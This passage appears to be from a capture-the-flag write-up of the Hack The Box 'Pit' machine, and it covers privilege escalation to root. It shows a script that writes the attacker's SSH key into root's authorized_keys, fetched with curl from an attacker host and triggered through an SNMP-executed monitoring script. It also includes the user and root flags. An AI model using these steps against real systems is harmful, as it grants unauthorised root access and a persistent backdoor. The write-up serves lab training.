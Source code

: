 And we get the user flag ```e1020e71e1b0da2c33c36d460b8f3f89```.


### Root

```snmpwalk``` give us also the following information:
```console
iso.3.6.1.4.1.2021.9.1.16.1 = Gauge32: 0
iso.3.6.1.4.1.2021.9.1.16.2 = Gauge32: 0
iso.3.6.1.4.1.2021.9.1.100.1 = INTEGER: 0
iso.3.6.1.4.1.2021.9.1.100.2 = INTEGER: 1
iso.3.6.1.4.1.8072.1.3.2.1.0 = INTEGER: 1
iso.3.6.1.4.1.8072.1.3.2.2.1.2.10.109.111.110.105.116.111.114.105.110.103 = STRING: "/usr/bin/monitor"
iso.3.6.1.4.1.8072.1.3.2.2.1.3.10.109.111.110.105.116.111.114.105.110.103 = ""
iso.3.6.1.4.1.8072.1.3.2.2.1.4.10.109.111.110.105.116.111.114.105.110.103 = ""
iso.3.6.1.4.1.8072.1.3.2.2.1.5.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: 5
iso.3.6.1.4.1.8072.1.3.2.2.1.6.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: 1
iso.3.6.1.4.1.8072.1.3.2.2.1.7.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: 1
```

Let's try to observe this file ```/usr/bin/monitor```:
```bash
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```

Let's create script called ```check_me.sh``` which contains:
```bash
#!/bin/bash

echo "ssh-rsa <SSH_PUBLIC_KEY> evyatar@parrot" > /root/.ssh/authorized_keys
```

The script adds our public key to ```root``` authorized_keys.

Let's upload this script to ```/usr/local/monitoring/``` using ```curl```:
```console
[michelle@pit monitoring]$ pwd
/usr/local/monitoring
[michelle@pit monitoring]$ curl http://10.10.14.14:8000/check_me.sh -o check_me.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   601  100   601    0     0   3756      0 --:--:-- --:--:-- --:--:--  3756
[michelle@pit monitoring]$ 
```

Now, Let's run again ```snmpwalk``` command: ```snmpwalk -v 1 -c public 10.10.10.241 .1``` to execute the script above.

When It's done we can make ```SSH``` login as root using our ```SSH``` private key:
```console
┌─[evyatar@parrot]─[/hackthebox/Pit]
└──╼ $ ssh -i id_rsa root@10.10.10.241
Web console: https://pit.htb:9090/

Last login: Mon May 10 11:42:46 2021
[root@pit ~]# whoami
root
[root@pit ~]# cat root.txt
0730dc58aa29524e312f7983c0316f1d
[root@pit ~]# 

```

And we get the root flag ```0730dc58aa29524e312f7983c0316f1d```.
